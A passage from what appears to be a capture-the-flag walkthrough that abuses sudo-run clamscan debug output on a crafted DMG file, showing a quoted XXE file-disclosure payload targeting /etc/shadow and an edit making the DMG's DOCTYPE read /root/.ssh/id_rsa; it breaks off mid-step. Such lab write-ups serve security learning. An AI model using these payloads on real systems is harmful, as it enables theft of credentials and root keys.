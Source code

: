 I’ll scan it using the syntax allowed by `sudo`. This generates a ton of output. I’ll search around in it, looking for the “dmg” parser, and find this:

```

sbrown@snoopy:~/scanfiles$ sudo clamscan --debug /home/sbrown/scanfiles/notepad.dmg 
...[snip]...
LibClamAV debug: cli_scandmg: Matched blkx
LibClamAV debug: dmg_decode_mish: startSector = 0 sectorCount = 1 dataOffset = 0 stripeCount = 2
LibClamAV debug: dmg_decode_mish: startSector = 1 sectorCount = 63 dataOffset = 0 stripeCount = 2        
LibClamAV debug: dmg_decode_mish: startSector = 64 sectorCount = 105184 dataOffset = 0 stripeCount = 168 
LibClamAV debug: dmg_decode_mish: startSector = 105248 sectorCount = 2 dataOffset = 0 stripeCount = 2    
LibClamAV debug: cli_scandmg: wanted blkx, text value is plst
...[snip]...

```

These stand out because they are from the `cli_scandmg` module. The first one says “Matched blkx”, which was one of the two fields I noted in the XML. The last one says “wanted lbkx, text value is plst”. It’s not immediately clear to me what this means, but I am getting the value of a key!

#### Modify DMG

I’ll copy the file to `notepadxxe.dmg`, and open it in a hexeditor (like `ghex`). This XML starts like:

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">

```

An [XXE POC for file disclosure](https://github.com/payloadbox/xxe-injection-payload-list#xxe-file-disclosure) looks like this:

```

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>

```

I’ll edit the `DOCTYPE` in the DMG to create an entity that references `/root/.ssh/id_rsa`:

![image-20230510172620920](/img/image-20230510172620920.png)

I’ve used spaces to pad out the extra stuff. I am using a variable `df` such that when I reference it later as `&df;`, it takes four characters, the same length as `plst`. Down the file a bit, I’ll find the `plst` key and modify it:

